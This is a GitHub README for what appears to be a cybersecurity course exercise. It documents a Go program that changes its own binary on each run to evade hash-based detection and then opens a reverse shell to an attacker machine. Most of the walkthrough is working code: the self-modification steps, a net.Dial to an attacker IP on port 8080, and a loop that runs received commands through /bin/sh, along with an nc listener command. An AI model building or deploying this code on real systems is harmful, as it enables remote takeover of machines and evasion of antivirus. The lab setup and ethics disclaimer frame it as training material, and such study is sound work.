

# [obfuscator](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/obfuscator)

## Objective
This program is designed to demonstrate polymorphic behavior through self-modifying code while maintaining the functionality of a simple SSH-like reverse shell. In this README-md I provide a walkthrough of how the program works and achieves the objectives.

## Setup

1. Download and Install VirtualBox from the [official website](https://www.virtualbox.org/)
2. Download the Kali Linux VirtualBox image from the [official website](https://www.kali.org/get-kali/#kali-virtual-machines)
3. Import the Kali Linux image into VirtualBox

## Usage

1. Compile the go program: ```go build obfuscator.go```

    *Note: Before compiling the program, ensure that the IP address in the code matches the IP address of the attacker machine. You can find out your IP address by using following command: ```hostname -I | awk '{print $1}'```*

2. Move the compiled binary to the victims virtual machine
3. Set up a listener on the attacker machine: ```nc -lvp 8080```
4. Check ./obfuscator SHA-1 hash on the victim machine before runing it: ```sha1sum obfuscator``` 
5. Run the compiled binary on the victim machine
6. Check ./obfuscator SHA-1 hash on the victim machine after runing it: ```sha1sum obfuscator```

    The program will establish a reverse shell connection to the attacker machine, allowing the attacker to send commands to the victim machine.



## What is poymorphic encryption?

Polymorphic encryption is a cryptographic technique where the encryption algorithm or key changes dynamically during the process of encryption, making it more difficult for attackers to decrypt the data even if they gain partial knowledge about the encryption method. The "polymorphic" aspect refers to the system's ability to change form, similar to how polymorphic viruses change their code each time they replicate to avoid detection.

Here’s how polymorphic encryption works:

1. **Dynamic Changes:** Unlike standard encryption methods that use a single algorithm and key throughout, polymorphic encryption changes its algorithm, key, or both at different stages of the encryption process. This variability can be driven by a predefined pattern, random changes, or a combination of factors.

2. **Increased Security:** By frequently changing the encryption parameters, polymorphic encryption makes it much harder for attackers to predict or reverse-engineer the encryption process. Even if an attacker figures out one part of the encryption, it won't necessarily help them with the rest, as the encryption method might have already changed.

3. **Applications:** Polymorphic encryption is used in scenarios requiring high security, such as in military communications, sensitive data transmission, or securing large-scale distributed systems. It's also a concept used in the design of some types of malware to avoid detection by antivirus software.

4. **Complexity:** While offering enhanced security, polymorphic encryption is also more complex to implement and may require more computational resources, which can be a trade-off depending on the application.

In summary, polymorphic encryption is a sophisticated and adaptable form of encryption that provides enhanced security through its ability to change dynamically, making it challenging for unauthorized parties to decrypt the data.

## Code Walkthrough
 1. **Self-Modification:** The program modifies its own binary content by appending random bytes each time it runs, changing its signature while maintaining the same functionality.
2. **Reverse Shell:** The program establishes a reverse shell connection to a specified IP address and port, allowing an external server to send commands to the compromised machine and execute them.
## Detailed Walkthrough
### 1. **Retrieving Executable Path**
```golang
exePath, err := os.Executable()
if err != nil {
    fmt.Printf("Error: Failed to retrieve executable path: %s\n", err)
    return
}
```
- The program begins by retrieving the path to its own executable file. This is necessary because the program will read and modify its own binary content.
### 2. **Generating Random Bytes**
```golang
randomBytes := make([]byte, 16)
_, err = rand.Read(randomBytes)
if err != nil {
    fmt.Printf("Error: Failed to generate random bytes: %s\n", err)
    return
}
```
- A slice of 16 random bytes is generated. These bytes are used to modify the binary content of the executable, effectively altering its signature with each execution.
### 3. **Reading the Executable Content**
```golang
content, err := ioutil.ReadFile(exePath)
if err != nil {
    fmt.Printf("Error: Failed to read executable: %s\n", err)
    return
}
```
- The program reads the entire content of its own executable file into a byte slice. This content will later be modified.
### 4. **Modifying the Content**
```golang
newContent := append(content, randomBytes...)
```
- The program appends the previously generated random bytes to the executable content, creating a new version of the binary that is slightly different each time.
### 5. **Writing the Modified Content to a Temporary File**
```golang
tempFile := exePath + "_temp"
err = ioutil.WriteFile(tempFile, newContent, 0o777)
if err != nil {
    fmt.Printf("Error: Failed to write temporary file: %s\n", err)
    return
}
```
- The modified content (original executable content plus random bytes) is written to a temporary file. This file will replace the original executable.
### 6. **Replacing the Original Executable**
```golang
err = os.Remove(exePath)
if err != nil {
    fmt.Printf("Error: Failed to remove original executable: %s\n", err)
    return
}

err = os.Rename(tempFile, exePath)
if err != nil {
    fmt.Printf("Error: Failed to overwrite executable: %s\n", err)
    return
}
```
- The original executable is deleted, and the temporary file is renamed to the original executable’s name. This effectively replaces the original binary with the modified version, achieving self-modification.
### 7. **Establishing the Reverse Shell Connection**
```golang
createSSHConnection()
```
- After modifying itself, the program establishes a reverse shell connection to a hardcoded IP address (xxx.xxx.x.xxx) and port (8080).
### 8. **Handling Commands from the Server**
```golang
conn, err := net.Dial("tcp", "xxx.xxx.x.xxx:8080") // Change IP address to attacker's machine
if err != nil {
    fmt.Printf("Error: Failed to establish connection: %s\n", err)
    return
}
defer conn.Close()

for {
    message, err := bufio.NewReader(conn).ReadString('\n')
    if err != nil {
        fmt.Printf("Error: Failed to read message: %s\n", err)
        return
    }

    command := strings.TrimSpace(message)

    if command == "exit" {
        break
    } else if strings.HasPrefix(command, "cd ") {
        dir := strings.TrimSpace(strings.TrimPrefix(command, "cd "))
        err := os.Chdir(dir)
        if err != nil {
            fmt.Fprintf(conn, "Error: Failed to change directory: %s\n", err)
        } else {
            fmt.Fprintf(conn, "Success: Directory changed to: %s\n", dir)
        }
        continue
    }

    cmd := exec.Command("/bin/sh", "-c", command)
    out, err := cmd.CombinedOutput()
    if err != nil {
        fmt.Fprintf(conn, "Error: Failed to execute command: %s\n", err)
    }
    fmt.Fprintf(conn, "Output:\n%s\n", out)
}
```
- The connection is established, and the program waits for commands from the remote server.
- It can handle basic commands like cd to change directories and any shell command.
- The output of the commands is sent back to the server.


## Security and Ethical Consideration:
 It’s important to understand that this code is designed for educational purposes to demonstrate polymorphic techniques and reverse shell functionality. The misuse of such techniques for malicious activities is illegal and unethical. Always ensure that you have permission before running or developing such software.

## Task desctiption
Detailed task description and audit questions can be found [here.](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/obfuscator)